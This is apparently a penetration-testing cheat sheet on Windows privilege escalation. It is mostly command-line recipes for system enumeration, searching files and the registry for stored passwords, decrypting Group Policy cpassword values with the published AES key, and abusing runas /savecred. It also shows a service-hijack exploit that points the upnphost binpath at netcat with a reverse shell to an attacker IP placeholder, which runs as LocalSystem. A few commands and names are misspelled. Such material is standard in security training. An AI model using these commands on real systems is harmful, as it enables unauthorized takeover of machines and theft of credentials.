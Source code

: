 # Windows Privilege Escalation 
This cheat sheet contains the flow chart methodology that can be used to test Windows privilege escalation.
## System Information Gathering
Use the following steps to gather basic system information once we get a low privilege shell on a Micorsoft Windows system.
### All System Info
To get system information, try the following DOS command,
```
C:> systeminfo
```
### User Info
We can get a list of users with the following command,
```
C:> net user
C:> net user (USERNAME)
```
### Network Information
We can use DOS to gather network information from the comrpomised taregt Microsoft Windows machine with the following DOS commands,
```
C:> ipconfig /all
C:> route print
C:> arp -A
C:> netstat -ano
C:> netsh firewall show state
C:> netsh firewall show config
```
### Scheduled Tasks
Micorosft Windows might have scheduled tasks which we can leverge depending on the task, permissions, the files it accesses and their permissions, and how oftne the task runs. Use the followinf DOS command to gather scheduled task information from Microsoft Windows,
```
C:> schtasks /query /fo LIST /v
C:> tasklist /SVC
C:> net start
```
### Drivers
Some drivers might have vulnerabilities. We can list the drivers used on a Microsoft Windows system with the following DOS command,
```
C:> DRIVERQUERY
```
## Missing Patches
To get the patch information for Microsoft Windows systems, we can us `wmic` as shown below.
```
C:> wmic qfe get Caption, Description, HotFixID, InstalledOn
C:> wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."
```
Then do a search in Exploit-DB with `searchsploit` in Kali Linux.
## Browser Credentials
Browser credentials could lead to escalation if the credentials are reused on other systems and services. 

## PowerUp
The [PowerUp Power Shell script](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) PowerSploit module can be used to search for injectable DLLs, service permissions, autologin credentials, web configuration credentials and many other areas of the OS and FS that can be used specifically for privilege escalation.

## AlwaysInstallElevated
This option in the Windows registry will aloow us to execute a binary that does `execv()` and adds an admin user no matter what privilege we current are. This will only work if both registry keys contain "AlwaysInstallElevated" with DWORD values of 1.
```
C:\Windows\system32> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
C:\Windows\system32> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```
## RunAs
You can try the `runas` command with the `/savecred` in hopes that an admin credential has been saved for scripting purposes. For instance, spawn a new shell and write the contents of a protected file to one that you can read, like so,
```
C:\> runas /savecred /user:Administrator "cmd.exe /c type C:\Users\Administrator\Desktop\flag.txt > C:\Users\PwnedUser\Desktop\flag.txt"
```
If the credentials are in fact stored, you will get a new file in the pwned user's desktop called "flag.txt"

## WMIC
Windows Management Instrumentation Console can sometimes be leveraged for privilege escalation.

## Mass Install of Windows to Labs
Sometimes the mass-install process of many Microsoft Windows machines in the same environment can leave behind log files with sensitive information in them. We can check a few of these files if they exist on the file system onthe compromised target Windows machine,
```
c:\sysprep.inf
c:\sysprep\sysprep.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml
```
## Groups.xml
If we have access to the SYSVOL/groups.xml file, we have access to any passwords encrypted in there. When a new GPP is created, there’s an associated XML file created in SYSVOL with the relevant configuration data and if there is a password provided, it is AES-256 bit encrypted. 

Since authenticated users (any domain user or users in a trusted domain) have read access to SYSVOL, anyone in the domain can search the SYSVOL share for XML files containing “cpassword” which is the value that contains the AES encrypted password.
```
C:> findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
```
The AES decryption key, published by Microsoft themselves, is,
```
4e 99 06 e8  fc b6 6c c9  fa f4 93 10  62 0f fe e8	
f4 96 e8 06  cc 05 79 90  20 9b 09 a4  33 b6 6c 1b
```
There is a PowerSploit Power Shell script that we can use to automate the password reveal [located here.](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)

## Mass Credentials Search
Below are a few searches that we can do in our DOS prompt for searching for credentials that are stored in files.
```
C:> dir /s *pass* == *cred* == *vnc* == *.config*
C:> findstr /si password *.xml *.ini *.txt
C:> reg query HKLM /f password /t REG_SZ /s
C:> reg query HKCU /f password /t REG_SZ /s
```
## Windows Services
Next, we can try Microsoft Windows Services with the following command,
```
C:> sc qc Sploiler
```
If we upload a copy of the `accesschk.exe` binary from [Microsoft SysInternals](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) we can check alot of permissions for services. For instance,
```
C:> accesschk.exe /accepteula -ucqv Spooler
```
will list the Spooler service and it's permissions. To list all services, simply use an asterisk,
```
C:> accesschk.exe /accepteula -ucqv *
```
We can use it to check for write access to a service with the following DOS command,
```
C:> accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```
Now, let's try it in practice. First a few things need to be in order. We must,
1. Have a space to read and write 
2. Upload the Windows binary of Netcat to the target `/usr/share/binaries/windows` in Kali.
```
C:\> sc qc upnphost
C:\> sc config upnphost binpath= "C:\temp\nc.exe -nv (ATTACKER IP ADDRESS) (ATTACKER PORT) -e C:\WINDOWS\System32\cmd.exe"
C:\> sc config upnphost obj= ".\LocalSystem" password= ""
C:\> sc qc upnphost
C:\> net start upnphost # start the service
```
The access rights that we are looking for in the service to fully exploit it are,
* SERVICE_SHNAGE_CONFIG
* WRITE_DAC
* WRITE_OWNER
* GENERIC_WRITE
* GENERIC_ALL
The important thing to remember is that we find out what user groups our compromised session belongs to. As mentioned previously "Power Users" is also considered to be a low privileged user group. "Power Users" have their own set of vulnerabilities, Mark Russinovich has written a very interesting article on the subject.
## Weak File Permissions
We can also use `accesschk.exe` to determine which files in the target system have weak permissions like so,
```
C:> accesschk.exe -uwdqs Users c:\
C:> accesschk.exe -uwdqs "Authenticated Users" c:\
C:> accesschk.exe -uwqs Users c:\*.*
C:> accesschk.exe -uwqs "Authenticated Users" c:\*.*
```
# References
In this document, I referenced the following resources,
* [*http://www.fuzzysecurity.com/tutorials/16.html*](http://www.fuzzysecurity.com/tutorials/16.html)
